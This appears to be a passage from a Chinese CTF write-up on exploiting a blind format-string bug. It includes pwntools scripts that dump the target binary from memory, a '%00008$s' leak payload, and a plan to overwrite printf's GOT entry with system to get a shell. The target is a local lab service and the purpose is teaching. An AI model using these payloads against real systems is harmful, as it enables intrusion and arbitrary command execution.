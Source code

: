 ```py
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None

def getbinary():
    addr = 0x400000
    f = open('binary', 'w')
    while addr < 0x401000:
        data = leak(addr)
        if data is None:
            f.write('\xff')
            addr += 1
        elif len(data) == 0:
            f.write('\x00')
            addr += 1
        else:
            f.write(data)
            addr += len(data)
    f.close()
getbinary()
```

需要注意的是，在 payload 中需要判断是否有 '\n' 出现，因为这样会导致源程序只读取前面的内容，而没有办法泄露内存，所以需要跳过这样的地址。

#### 分析 binary

ida以二进制打开文件，然后编辑->段->重新设置基址0x400000

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594865152347-bae611b3-7d22-4b24-bd49-44e2cd9513e7.png)

按c可以分析

可以基本确定的是 sub_4004C0 为 read 函数，因为读入函数一共有三个参数的话，基本就是 read 了。此外，下面调用的 sub_4004B0 应该就是输出函数了，再之后应该又调用了一个函数，此后又重新跳到读入函数处，那程序应该是一个 while 1 的循环，一直在执行。



分析完上面的之后，我们可以确定如下基本思路

- 泄露 printf 函数的地址，
- 获取对应 libc 以及 system 函数地址
- 修改 printf 地址为 system 函数地址
- 读入 /bin/sh; 以便于获取 shell

```py
##coding=utf8
import math
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
context.arch = 'amd64'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
```